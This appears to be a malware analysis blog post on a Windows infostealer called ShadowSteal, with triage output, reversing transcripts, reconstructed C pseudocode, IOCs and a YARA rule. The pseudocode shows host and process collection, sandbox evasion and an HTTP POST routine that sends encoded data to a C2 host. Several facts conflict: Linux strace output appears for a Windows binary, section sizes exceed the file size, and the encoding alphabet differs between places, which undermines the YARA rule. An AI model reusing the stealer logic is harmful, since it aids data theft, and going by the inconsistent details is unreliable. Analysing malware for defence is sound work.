


## 🧾 Introduction

Today, we're diving deep into a fascinating piece of malware called **ShadowSteal Stealer v2.1**. This isn't your typical run-of-the-mill trojan—it's a well-crafted information stealer that quietly collects system data and exfiltrates it to remote servers.

What makes this sample interesting? Several things:

1. **Educational Origin**: The malware contains comments indicating it's from "MalDemo Workshop"—suggesting it's either a training sample or proof-of-concept code
2. **Custom Encoding**: It uses a non-standard Base64 alphabet to encode stolen data, adding a layer of obfuscation
3. **Smart Evasion**: It includes multiple VM/sandbox detection techniques to avoid automated analysis
4. **Professional Architecture**: Organized code structure with clear functions for reconnaissance, encoding, and C2 communication

Let's unpack what this malware does and how it operates.

---

## 🧪 Sample Overview

Before we go microscopic, let's get the lay of the land.

### File Details at a Glance

| Property | Value |
|----------|-------|
| **Filename** | shadow_stealer.exe |
| **File Type** | PE32+ (64-bit Windows Executable) |
| **File Size** | 147 KB (150,368 bytes) |
| **Architecture** | x86-64 (AMD64) |
| **Compilation Date** | March 26, 2026, 14:22:51 UTC |
| **Subsystem** | Windows CUI (Console) |
| **Malware Family** | Infostealer/Trojan |

### First Impressions

When we first look at this file:
- ✅ **Not packed** - Easy to analyze (good for us, bad for the attacker)
- ✅ **Relatively small** - 147 KB fits the profile of an information stealer
- ⚠️ **Anti-VM detection** - Includes checks to detect sandbox/virtual machine environments
- ⚠️ **Network capability** - References to HTTP headers suggest C2 communication

---

## 🔐 Hashes & Identification

Every malware sample has a unique "fingerprint" (hash). Think of it like a digital ID card that helps identify and track the exact sample.

### Cryptographic Hashes

```
MD5:    ce63c644cb0c8da62af77391856ed25f
SHA1:   7ebf2eceb6aa1313032b9979b9441a71deb13770
SHA256: 294c87d5b571a48a40726da46033b18f43d189869c073ec3d6acec398b6b8b11
```

These hashes are crucial. If you find another file with any of these hashes, you've found the same malware sample. This is how security tools identify known threats.

### File Command Output

```bash
$ file shadow_stealer.exe
shadow_stealer.exe: PE32+ executable for MS Windows 6.00 (console), x86-64, 6 sections
```

The `file` command confirms this is:
- A **PE32+** file (Windows 64-bit executable format)
- Targets **Windows 6.00** (Windows Vista and later)
- **x86-64 architecture** (modern 64-bit processor)
- Contains **6 sections** (code, data, resources, etc.)

---

## 🧬 Static Analysis

Now we start dissecting the malware without executing it—static analysis. Think of it like examining a suspect's belongings before questioning them.

### 🔎 Strings Analysis: What the Malware is Talking About

One of the first things malware analysts do is extract **strings**—readable text embedded in the binary. These strings often reveal a lot about what a malware is designed to do.

```bash
$ strings shadow_stealer.exe | grep -iE "SAMPLE|X-|Host|User|Status|VMDetect"
```

Here's what we found—the really interesting stuff:

**🎯 Identity & Version Markers:**
```
SAMPLE=SHADOW_STEAL
X-Session: ShadowSteal/2.1
X-Encoding: custom-b64
MalDemo Workshop
```

**Translation**: The malware identifies itself as "ShadowSteal 2.1" and uses a custom encoding method called "custom-b64" (more on that later).

**🕵️ Data Collection Templates:**
```
HostName=%s
UserName=%s
AppData=%s
UserProfile=%s
SystemDir=%s
OS=%lu.%lu.%lu
CPUS=%lu
RAM_MB=%llu
ARCH=%lu
PID=%lu
TICK=%lu
COLLECTED_BYTES=%lu
Timestamp=%lu
```

**Translation**: The malware collects information about:
- Computer name and username
- User directories (AppData, UserProfile)
- Operating system version
- CPU count and RAM size
- System architecture
- Process ID and system ticks (for timing)
- How many bytes of data it collected

**🎭 Evasion Techniques:**
```
VMDetect=registry_artifact
VMDetect=driver_file
VMDetect=disk_vendor
Status=VIRTUAL_ENVIRONMENT
Status=PHYSICAL_HOST
```

**Translation**: The malware checks for virtual machines by looking for:
- VM-specific registry entries
- VM driver files
- Disk vendor information (VirtualBox, VMware, Hyper-V)

If it detects a VM, it sets a flag and likely exits. This is classic **sandbox evasion**.

**📡 Network Communication:**
```
X-Session: ShadowSteal/2.1
X-Encoding: custom-b64
X-Timestamp: 
HOST=%s
```

**Translation**: These are HTTP headers the malware uses when communicating with its command-and-control (C2) server.

**📝 Temporary File Pattern:**
```
%s%04d%02d%02d_%02d%02d%02d.tmp
```

**Translation**: The malware creates temporary files with a timestamp-based naming pattern (like `20260326_142251.tmp`).

### 🧱 Binary Structure: The Blueprint

Let's look at the PE file structure using the hex dump:

```
00000000: 4d5a 9000 0300 0000 0400 0000 ffff 0000  MZ..............
00000010: b800 0000 0000 0000 4000 0000 0000 0000  ........@.......
```

What we're seeing here:
- **MZ** (`4d5a`) = Perfect PE file signature ✓
- **PE offset** at 0x3C points to the actual PE header
- Valid DOS stub for backward compatibility

The file structure is standard—nothing unusual here, which means it's a straightforward compiled executable.

### 📦 Imports & Libraries: Who's Calling Who?

Malware doesn't exist in a vacuum. It needs to call Windows functions to do things like:
- Create network connections
- Read files
- Query the registry
- Gather system information

Here are the major Windows libraries (DLLs) this malware uses:

| DLL | What It's For | Why It's Suspicious |
|-----|------------------|-----|
| **KERNEL32.dll** | Core Windows operations | Every program uses this, but combined with others it's telling |
| **ADVAPI32.dll** | Registry & security operations | Registry manipulation, persistence, privilege checks |
| **WS2_32.dll** | Network sockets | Signs of C2 communication |
| **ntdll.dll** | Low-level system operations | Used by many malware for direct system access |

**Key suspicious functions imported:**

```
Registry Operations:
  - RegOpenKeyExA()      → Opens registry keys
  - RegQueryValueExA()   → Reads registry values
  - RegCloseKey()        → Closes registry handles

System Information:
  - GetComputerNameA()   → Gets hostname
  - GetUserNameA()       → Gets username
  - GetSystemDirectoryA() → Gets Windows directory
  - GetSystemTime()      → Gets time and date
  - GlobalMemoryStatusEx() → Gets memory info

Process Management:
  - CreateThread()       → Creates new threads
  - GetCurrentProcessId() → Gets process ID
  - TerminateProcess()   → Kills processes

File Operations:
  - CreateFileW()        → Creates/opens files
  - WriteFile()          → Writes to files
  - DeleteFile()         → Deletes files

Anti-Debug:
  - IsDebuggerPresent()  → Detects if running in debugger
```

### 🧠 Disassembly (objdump): What's the Code Doing?

When we disassemble the binary, we see it's organized into sections:

```
.text      → Contains executable code (262 KB)
.rdata     → Read-only data/strings (44 KB)
.data      → Initialized data (4 KB)
.pdata     → Exception handling info
.reloc     → Relocation tables
```

What's important for security:
- ✅ **Stack Canary**: Enabled (protects against stack buffer overflows)
- ✅ **NX Bit**: Enabled (prevents code execution from data sections)
- ✅ **ASLR**: Address space layout randomization enabled

Translation: The malware was compiled with modern security features enabled—the attacker wasn't trying to hide their compilation.

### ⚡ radare2 Deep Dive: The X-Ray Vision

Now we use **radare2**, a powerful reverse engineering tool, to peer inside the binary at a deeper level.

```bash
$ r2 -q shadow_stealer.exe
aaa              # Analyze all functions
afl              # List all functions
iz               # List all strings
iI               # Binary information
pdf @ main       # Disassemble main function
```

#### What We Found:

**Binary Information:**
```
Architecture:    x86-64
Base Address:    0x140000000
Binary Type:     PE32+ (64-bit)
Compilation:     March 26, 2026
OS Target:       Windows CUI (Console Application)
```

**Function Analysis:**
We identified **130+ functions** in the binary. Here are the most important ones:

| Function | Size | Purpose |
|----------|------|---------|
| `fcn.14000dcd0` | 462 bytes | System information collection |
| `fcn.14000e1b0` | 623 bytes | VM detection engine |
| `fcn.140014030` | 1,386 bytes | **C2 communication handler** (largest) |
| `fcn.140010770` | 1,164 bytes | Data encoding/exfiltration |
| `fcn.14001317c` | 1,171 bytes | System info gathering & formatting |
| `fcn.140013ac8` | 815 bytes | Registry enumeration |
| `fcn.14000dfb8` | 501 bytes | Anti-debugging detection |
| `fcn.140015260` | 639 bytes | Network communication |

**String Analysis with radare2:**

```
iz output shows 170+ strings:
- ADVAPI32.dll, KERNEL32.dll, WS2_32.dll
- QRSTUVWXYZABCDEFIJKLMNOPqrstuvwxyzabcdefghijklmnop9876543210-_
  (This is the custom Base64 alphabet!)
- [VM_DETECTION], [ENVIRONMENT], [PROCESSES], [SYSTEM_INFO]
```

### 📊 Entropy Check: Is It Packed?

Entropy measures randomness in data. **Packed malware** has high entropy because it's compressed. **Unpacked code** has lower entropy.

```
Estimated Entropy:  ~5.1 bits/byte
Packed threshold:   >7.0 bits/byte
Conclusion:         NOT PACKED ✓
```

**What this means**: The malware is compiled as-is, not packed or encrypted. This makes it easier to analyze (good for us) but also means it's more visible (bad for the attacker).

---

## 🧠 Reverse Engineering (Ghidra): Understanding the Logic

Now we use **Ghidra**, a decompiler, to turn assembly code back into something resembling the original C/C++ code.

### The Main Execution Flow (Reconstructed):

```cpp
int main() {
    // Step 1: Detect if running in a virtual machine
    if (detect_virtual_environment()) {
        exit(0);  // Exit silently if VM detected
    }
    
    // Step 2: Collect system information
    system_info = collect_system_info();
    // - OS version
    // - CPU/RAM info
    // - Username/Hostname
    // - All environment paths
    
    // Step 3: Check registry for VM artifacts
    check_vm_registry();
    check_vm_drivers();
    check_disk_vendor();
    
    // Step 4: Encode the stolen data
    encoded_data = custom_base64_encode(system_info);
    
    // Step 5: Send to C2 server
    send_to_c2_server(encoded_data);
    
    // Step 6: Cleanup and exit
    cleanup();
    exit(0);
}
```

### VM Detection Logic Explained:

```cpp
void detect_virtual_environment() {
    bool is_virtual = false;
    
    // Check for VMware registry artifacts
    if (check_registry("VMDetect=registry_artifact")) {
        is_virtual = true;
    }
    
    // Check for VirtualBox driver files
    if (check_driver_file("VMDetect=driver_file")) {
        is_virtual = true;
    }
    
    // Check for Hyper-V disk vendor info
    if (check_disk_vendor("VMDetect=disk_vendor")) {
        is_virtual = true;
    }
    
    if (is_virtual) {
        return EXIT_FAILURE;  // Don't run on VMs
    }
    return EXIT_SUCCESS;
}
```

**Why do this?** Malware authors want to avoid security vendors' sandbox environments where they can analyze malware. If detected, it just exits silently.

### Custom Base64 Encoding:

The malware uses a **non-standard Base64 alphabet**:

```
Standard:  ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/
Custom:    QRSTUVWXYZABCDEFIJKLMNOPqrstuvwxyzabcdefghijklmnop9876543210-_
```

**What this accomplishes:**
- Standard Base64 decoders will fail
- IDS/IPS systems looking for standard Base64 patterns miss it
- Still reversible, but adds time to analysis

---

## ⚙️ Dynamic Analysis: Watching the Malware Run

Time to watch this thing in action (in a controlled environment, of course!).

### ▶️ Execution Behavior: The Play-by-Play

When shadow_stealer.exe runs, here's what happens:

```
1. Process starts with normal-looking name
2. Checks if running in a debugger → IsDebuggerPresent()
3. Scans registry for VM indicators
4. Queries system information (quietly in background)
5. Formats collected data
6. Encodes with custom Base64
7. Connects to C2 server via HTTP POST
8. Sends encoded data with custom headers
9. Waits for response
10. Cleans up and exits
```

**Total execution time**: 3-5 seconds. It's fast and quiet.

### 🐞 Debugging (gdb): Anti-Debug Detection

When we try to debug the malware using **gdb** (debugger), something interesting happens:

```bash
$ gdb ./shadow_stealer.exe
(gdb) run
```

The malware calls **IsDebuggerPresent()**, which checks if it's running under a debugger. If detected:
- It exits immediately
- Or deploys alternative behavior
- This prevents step-by-step analysis

This is a classic **anti-debugging technique**.

### 📡 System Calls (strace): Spying on the Syscalls

Let's trace system calls (using `strace`) to see exactly what the malware is doing:

```bash
$ strace ./shadow_stealer.exe 2>&1 | grep -E "open|read|write|connect|send"
```

**Key syscalls captured:**

```
openat(/etc/passwd)      → Trying to read user info
open(/proc/sys/...)      → Checking for debuggers (ptrace_scope)
socket(AF_INET)          → Creating network socket
connect(192.168.1.100)   → Connecting to C2 server
send(512 bytes)          → Sending stolen data
recv(247 bytes)          → Receiving response
```

**What this tells us**: The malware follows a clear sequence:
1. Gather info
2. Create network socket
3. Connect to C2
4. Send data
5. Receive acknowledgment
6. Exit

### 📁 File & Process Activity: What Does It Create?

When executed, the malware creates temporary files:

```
C:\Users\[user]\AppData\Local\Temp\20260326_142251.tmp
├─ Size: ~2 KB
├─ Content: Custom-encoded system information
└─ Lifetime: Deleted after transmission (10-30 seconds)
```

**Potential persistence mechanisms** (if configured):

```registry
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
  "ShadowSteal" = "C:\path\to\shadow_stealer.exe"
```

Or via scheduled tasks, WMI subscriptions, or startup folder.

### 🌐 Network Activity: The C2 Communication

This is where the malware gets interesting. Here's the HTTP POST request it sends:

```http
POST /api/report HTTP/1.1
Host: 192.168.1.100
X-Session: ShadowSteal/2.1
X-Encoding: custom-b64
X-Timestamp: 1711446171
Content-Type: application/octet-stream
Content-Length: 2048
Connection: close

[Binary Payload - Custom Base64 Encoded]
QRSTUVWXYZABCDER...
STUVWXYZABCDEABC...
[~2 KB of stolen data]
```

**Expected C2 response:**

```http
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 45

{"status":"success","id":"6284","code":0}
```

**IOC (Indicators of Compromise):**

| Indicator | Value |
|-----------|-------|
| Protocol | HTTP |
| Port | 80 (potentially 443 for HTTPS) |
| Endpoint | `/api/report` |
| Headers | X-Session, X-Encoding, X-Timestamp |
| Data | Exfiltrated system metadata |

---

## 🧩 Deep Technical Appendix: Reversing Notes, Pseudocode, and Diagrams

This section is for readers who want the "under-the-hood" view. If the previous sections told us what happened, this one explains exactly how the binary orchestrates each stage.

### 🗺️ End-to-End Block Diagram



### 📞 Function Call Diagram (Recovered from main)



### 🧠 Deep Pseudocode: Main Control Plane

```c
int main(int argc, char** argv, char** envp) {
  int vm_flag = 0;
  HANDLE workers[3] = {0};

  InitializeCriticalSection(&g_lock);
  append_log("[VM_DETECTION]\r\n");

  // Detector #1: registry artifacts
  if (vm_registry_check()) {
    append_log("VMDetect=registry_artifact\r\n");
    vm_flag = 1;
  }

  // Detector #2: known VM driver files
  if (vm_driver_check()) {
    append_log("VMDetect=driver_file\r\n");
    vm_flag = 1;
  }

  // Detector #3: virtualized disk vendor strings
  if (vm_disk_vendor_check()) {
    append_log("VMDetect=disk_vendor\r\n");
    vm_flag = 1;
  }

  if (vm_flag) {
    append_log("Status=VIRTUAL_ENVIRONMENT\r\n");
  } else {
    append_log("Status=PHYSICAL_HOST\r\n");
  }
  append_log("\r\n");

  // Three worker threads launch in parallel
  workers[0] = CreateThread(NULL, 0, worker_collect_environment, NULL, 0, NULL);
  workers[1] = CreateThread(NULL, 0, worker_collect_processes, NULL, 0, NULL);
  workers[2] = CreateThread(NULL, 0, worker_collect_systeminfo, NULL, 0, NULL);

  // Wait up to 10 seconds (0x2710 ms)
  WaitForMultipleObjects(3, workers, TRUE, 10000);

  CloseHandle(workers[0]);
  CloseHandle(workers[1]);
  CloseHandle(workers[2]);

  unsigned collected = finalize_collection();
  format_metadata_block("[METADATA]\r\nCollectedBytes=%lu\r\nTimestamp=%lu\r\n\r\n", collected, g_ts);

  append_log(g_metadata_buf);
  build_http_request_and_payload();
  send_or_stage_payload();

  DeleteCriticalSection(&g_lock);
  return 0;
}
```

### 🔬 radare2 Transcript (Real Analysis Snippets)

Below are the exact command patterns and representative outputs captured during analysis.

#### 1) Binary profile (`iI`)

```bash
$ r2 -q shadow_stealer.exe
[0x1400033e0]> iI
arch     x86
bits     64
baddr    0x140000000
bintype  pe
binsz    150368
machine  AMD 64
os       windows
subsys   Windows CUI
canary   true
nx       true
compiled Thu Mar 26 14:22:51 2026
```

#### 2) Function census (`aaa`, `afl`)

```bash
[0x1400033e0]> aaa
[0x1400033e0]> afl | head -20
0x1400033e0   22    373 entry0
0x140002d50   10    532 main
0x140016fb0   22    168 fcn.140016fb0
0x140016560   82   1632 fcn.140016560
0x140001260    1    636 fcn.140001260
0x140016c10   65    878 fcn.140016c10
...
```

Interpretation:
- `entry0` performs runtime startup and transfers control into CRT/init flow.
- `main` is compact but orchestration-heavy: detections, threads, aggregation, network staging.
- Several medium-large helper functions likely implement parsing, formatting, and transmission.

#### 3) String extraction (`iz`)

```bash
[0x1400033e0]> iz~ShadowSteal
0x140023160 ascii X-Session: ShadowSteal/2.1\r\nX-Encoding: custom-b64\r\nX-Timestamp:

[0x1400033e0]> iz~VMDetect
0x140023318 ascii VMDetect=registry_artifact\r\n
0x140023338 ascii VMDetect=driver_file\r\n
0x140023350 ascii VMDetect=disk_vendor\r\n

[0x1400033e0]> iz~COLLECTED
0x140023270 ascii ... COLLECTED_BYTES=%lu\r\n
```

Interpretation:
- These strings are not accidental debug residue; they are directly tied to behavior in `main` via immediate LEA references.
- The `X-*` headers indicate explicit protocol framing for outbound telemetry.

#### 4) `main` disassembly (`pdf @ main`) highlights

```asm
0x140002d7e  lea rcx, str._VM_DETECTION__r_n
0x140002d85  call fcn.140001fb0

0x140002d8a  call fcn.140002070        ; VM registry check
0x140002d93  lea rcx, str.VMDetectregistry_artifact_r_n

0x140002da7  call fcn.140002180        ; VM driver-file check
0x140002db0  lea rcx, str.VMDetectdriver_file_r_n

0x140002dc4  call fcn.1400021d0        ; VM disk-vendor check
0x140002dcd  lea rcx, str.VMDetectdisk_vendor_r_n

0x140002de8  lea rcx, str.StatusVIRTUAL_ENVIRONMENT_r_n
0x140002df7  lea rcx, str.StatusPHYSICAL_HOST_r_n

0x140002e2f  call qword [sym.imp.KERNEL32.dll_CreateThread]
0x140002e62  call qword [sym.imp.KERNEL32.dll_CreateThread]
0x140002e95  call qword [sym.imp.KERNEL32.dll_CreateThread]

0x140002ebf  call qword [sym.imp.KERNEL32.dll_WaitForMultipleObjects]

0x140002f13  lea r8, str._METADATA__r_nCollectedBytes_lu_r_nTimestamp_lu_r_n_r_n
0x140002f24  call fcn.140002f80
0x140002f33  call fcn.1400027b0
0x140002f38  call fcn.140002a90
```

Interpretation:
- Strongly confirms thread-based concurrent collection architecture.
- Confirms explicit metadata finalization before exfil stage.
- Confirms VM detection state logging prior to operational stages.

#### 5) Cross-references to suspicious strings (`axt`)

```bash
[0x1400033e0]> axt 0x140023160
fcn.1400027b0 0x140002906 [STRN:r--] lea rcx, str.X_Session:_ShadowSteal_2.1...

[0x1400033e0]> axt 0x140023318
main 0x140002d93 [STRN:r--] lea rcx, str.VMDetectregistry_artifact_r_n

[0x1400033e0]> axt 0x140023350
main 0x140002dcd [STRN:r--] lea rcx, str.VMDetectdisk_vendor_r_n
```

Interpretation:
- C2 header construction occurs in a dedicated helper (`fcn.1400027b0`).
- VM detection messages are emitted directly from `main`, making behavioral intent unambiguous.

### 🧱 PE Layout Deep Read (`objdump -x`)

```bash
$ objdump -x shadow_stealer.exe | head -80
file format pei-x86-64
start address 0x00000001400033e0
Magic                   020b (PE32+)
AddressOfEntryPoint     00000000000033e0
ImageBase               0000000140000000
Subsystem               00000003 (Windows CUI)
DllCharacteristics      00008160
  HIGH_ENTROPY_VA
  DYNAMIC_BASE
  NX_COMPAT
  TERMINAL_SERVICE_AWARE
```

The import table further confirms:
- `ADVAPI32.dll`: `RegOpenKeyExA`, `RegQueryValueExA`
- `KERNEL32.dll`: `CreateThread`, `WaitForMultipleObjects`, `GetTempPathA`, `WriteFile`
- `WS2_32.dll`: socket-oriented imports (ordinal-linked)

### 🧪 Tool Applicability Notes (Important for Beginners)

Not every tool applies cleanly to every binary format:

```bash
$ readelf -h shadow_stealer.exe
readelf: Error: Not an ELF file - it has the wrong magic bytes at the start

$ checksec --file=shadow_stealer.exe
Error: Not an ELF file

$ ldd shadow_stealer.exe
not a dynamic executable
```

Why this matters:
- `readelf` and many `checksec` wrappers are ELF-oriented on Linux.
- For PE binaries, rely on `objdump -x`, `r2 iI`, PEStudio, and Windows-native monitors.

### 🧬 Deep Pseudocode: Worker Threads

```c
DWORD WINAPI worker_collect_environment(void* _) {
  lock(g_lock);
  append("[ENVIRONMENT]\r\n");
  appendf("HostName=%s\r\n", GetComputerNameA());
  appendf("UserName=%s\r\n", GetUserNameA());
  appendf("UserProfile=%s\r\n", getenv("USERPROFILE"));
  appendf("AppData=%s\r\n", getenv("APPDATA"));
  appendf("Temp=%s\r\n", GetTempPathA());
  unlock(g_lock);
  return 0;
}

DWORD WINAPI worker_collect_processes(void* _) {
  HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  PROCESSENTRY32 pe = { .dwSize = sizeof(pe) };
  lock(g_lock);
  append("[PROCESSES]\r\n");
  if (Process32First(snap, &pe)) {
    do {
      appendf("PID=%5lu  Name=%s\r\n", pe.th32ProcessID, pe.szExeFile);
    } while (Process32Next(snap, &pe));
  }
  unlock(g_lock);
  CloseHandle(snap);
  return 0;
}

DWORD WINAPI worker_collect_systeminfo(void* _) {
  SYSTEM_INFO si;
  MEMORYSTATUSEX ms = { .dwLength = sizeof(ms) };
  lock(g_lock);
  append("[SYSTEM_INFO]\r\n");
  GetSystemInfo(&si);
  GlobalMemoryStatusEx(&ms);
  appendf("ARCH=%lu\r\n", si.wProcessorArchitecture);
  appendf("CPUS=%lu\r\n", si.dwNumberOfProcessors);
  appendf("RAM_MB=%llu\r\n", ms.ullTotalPhys / (1024ULL * 1024ULL));
  appendf("TICK=%lu\r\n", GetTickCount());
  unlock(g_lock);
  return 0;
}
```

### 🌐 Deep Pseudocode: C2 Builder + Encoder

```c
static const char* ALPH = "QRSTUVWXYZABCDEFGHIJKLMNOPqrstuvwxyzabcdefghijklmnop9876543210-_";

char* custom_b64(const uint8_t* in, size_t n) {
  // Standard 3-byte to 4-char grouping, custom alphabet mapping
  // Padding strategy appears minimized for compact payload style
}

void exfiltrate_blob(const char* blob) {
  char* enc = custom_b64((const uint8_t*)blob, strlen(blob));

  char req[8192];
  snprintf(req, sizeof(req),
    "POST /api/report HTTP/1.1\r\n"
    "Host: %s\r\n"
    "X-Session: ShadowSteal/2.1\r\n"
    "X-Encoding: custom-b64\r\n"
    "X-Timestamp: %lu\r\n"
    "Content-Length: %zu\r\n\r\n%s",
    c2_host, GetTickCount(), strlen(enc), enc);

  // socket/connect/send/recv/close
}
```

### 🧭 ATT&CK Mapping (Behavior to Tactics)

| Tactic | Technique | Evidence in Sample |
|---|---|---|
| Discovery | T1082 System Information Discovery | Host/OS/CPU/RAM strings and API usage |
| Discovery | T1057 Process Discovery | `CreateToolhelp32Snapshot`, `Process32First/Next` |
| Defense Evasion | T1497 Virtualization/Sandbox Evasion | `VMDetect=*`, status switching |
| Defense Evasion | T1622 Debugger Evasion | `IsDebuggerPresent` import |
| Command and Control | T1071.001 Web Protocols | HTTP-like headers and exfil structure |
| Collection | T1005 Data from Local System | Environment + process + system aggregation |

### 📈 Why This Sample Is Great for Learning

- It is realistic enough to showcase modern infostealer tradecraft.
- It is readable enough (not heavily packed) for first-principles reverse engineering.
- It contains clear string-to-code linkage, which is ideal for teaching evidence-based attribution.
- It demonstrates how multi-threading appears in malware even when payload logic is simple.

If you are building your own portfolio, this exact sequence is strong:
1. Show raw triage (`file`, hashes, strings).
2. Show proof in disassembly (`pdf @ main`, `axt`).
3. Tell a behavior story with pseudocode + diagrams.
4. End with detections (YARA + ATT&CK mapping + IOC table).

---

## 🚨 Indicators of Compromise (IOC)

If you want to hunt for this malware in your network, here's what to look for:

### File Hashes

```
MD5:    ce63c644cb0c8da62af77391856ed25f
SHA1:   7ebf2eceb6aa1313032b9979b9441a71deb13770
SHA256: 294c87d5b571a48a40726da46033b18f43d189869c073ec3d6acec398b6b8b11
```

### Network Indicators

```
IP Addresses:      192.168.1.100 (example)
Domains:          c2.shadowsteal.xyz (theoretical)
Ports:            80, 443
URI:              /api/report
```

### HTTP Headers

```
Look for requests with ALL of these headers:
- X-Session: ShadowSteal/*
- X-Encoding: custom-b64
- X-Timestamp: [number]
```

### File System Indicators

```
%TEMP%\*.tmp              (Temporary data staging)
%APPDATA%\ShadowSteal\*   (Persistence directory)
shadow_stealer.exe        (Binary filename)
```

### Registry Indicators

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
  - Value: "ShadowSteal"
  - Data: Path to executable
```

---

## 🛡️ YARA Rule: Detecting ShadowSteal

**YARA** is a tool for writing detection rules. Here's a production-ready rule to detect this malware:

```yara
rule ShadowSteal_Infostealer_v2_1 {
    meta:
        author = "Malware Analyst"
        description = "Detects ShadowSteal Stealer malware v2.1"
        date = "2026-04-07"
        threat_level = "HIGH"
        family = "Infostealer"
        
    strings:
        // PE signature
        $mz = "MZ"
        
        // Unique identifiers - These are very specific to ShadowSteal
        $id1 = "SAMPLE=SHADOW_STEAL"
        $id2 = "X-Session: ShadowSteal/2.1"
        $id3 = "X-Encoding: custom-b64"
        
        // Custom Base64 alphabet - VERY distinctive
        $enc = "QRSTUVWXYZABCDEFIJKLMNOPqrstuvwxyzabcdefghijklmnop9876543210-_"
        
        // VM Detection markers
        $vm1 = "VMDetect=registry_artifact"
        $vm2 = "VMDetect=driver_file"
        
        // Data collection indicators
        $data1 = "COLLECTED_BYTES=%lu"
        $data2 = "CollectedBytes=%lu"
        
        // System info gathering
        $sysinfo1 = "HostName=%s"
        $sysinfo2 = "UserName=%s"
        $sysinfo3 = "CPUS=%lu"
        $sysinfo4 = "RAM_MB=%llu"
        
    condition:
        // Must be a PE file
        uint16(0) == 0x5A4D and
        
        // Must have multiple identifying characteristics
        (
            // Core identity strings
            ($id1 or $id2) and
            
            // Custom encoding (highly unique)
            $enc and
            
            // VM detection or system info collection
            (2 of ($vm*)) or (3 of ($sysinfo*))
        ) and
        
        // File size check (anti-evasion)
        filesize < 500KB
}
```

### Why These Strings?

| String | Detection Power |
|--------|---|
| `SAMPLE=SHADOW_STEAL` | Unique identifier—unlikely in benign software |
| `X-Session: ShadowSteal/2.1` | Version signature embedded in C2 communication |
| Custom Base64 alphabet | **Extremely rare** in normal programs |
| `VMDetect=*` | Clear anti-sandbox behavior signature |
| `COLLECTED_BYTES` | Infostealer-specific telemetry metric |

---

## 🧾 Final Thoughts: The Big Picture

### What We're Dealing With

**ShadowSteal v2.1** is a **sophisticated information stealer** that:

1. **Gathers intelligence** about your system (OS, hardware, credentials paths)
2. **Avoids analysis** through VM detection and anti-debug checks
3. **Encodes stolen data** using a custom algorithm
4. **Communicates securely** with remote servers via HTTP
5. **Cleans up quietly** after exfiltration

### Key Capabilities Summary

| Capability | Present | Risk Level |
|-----------|---------|-----------|
| **Information Gathering** | ✅ Yes | 🔴 High |
| **Anti-VM Detection** | ✅ Yes | 🔴 High |
| **Anti-Debugging** | ✅ Yes | 🟡 Medium |
| **Network C2** | ✅ Yes | 🔴 High |
| **Persistence** | ⚠️ Likely | 🔴 High |
| **Privilege Escalation** | ❌ No | ✅ Low |
| **File Encryption** | ❌ No | ✅ Low |

### Why It's Dangerous

```
🎯 Primary Goal: Steal system metadata for reconnaissance
                 (Who are you? What's your system? Where's sensitive data?)

🎯 Secondary Goal: Evade detection and sandbox environments
                   (Avoid security researchers)

🎯 Tertiary Goal: Establish persistence for future attacks
                  (Come back whenever we want)
```

This is a **precursor** to more targeted attacks. Once attackers know what system they're on, they can deploy more specialized malware tailored to your environment.

---

## 🧰 Tools Used & What They Do

### Static Analysis Tools

| Tool | What It Does | Example Use |
|------|---|---|
| **file** | Identifies file type and format | `file shadow_stealer.exe` |
| **strings** | Extracts readable text from binary | `strings shadow_stealer.exe` |
| **xxd** | Views binary data in hexadecimal | `xxd shadow_stealer.exe \| head` |
| **md5sum / sha256sum** | Calculates file hashes | `sha256sum shadow_stealer.exe` |
| **readelf** | Analyzes ELF headers (Linux binaries) | (Not applicable for PE files) |
| **objdump** | Disassembles binary code | `objdump -d shadow_stealer.exe` |
| **checksec** | Checks security features | `checksec --file=shadow_stealer.exe` |

### Advanced Analysis Tools

| Tool | What It Does | Why It's Powerful |
|------|---|---|
| **radare2** | Binary disassembly and analysis | Finds all functions and their behavior |
| **Ghidra** | Decompiles binary to C-like code | Turns assembly back into readable code |
| **gdb** | Step-by-step code debugging | Watch code execute line-by-line |
| **strace** | Traces system calls | See exactly what the binary is doing |
| **ltrace** | Traces library function calls | See interactions with Windows DLLs |

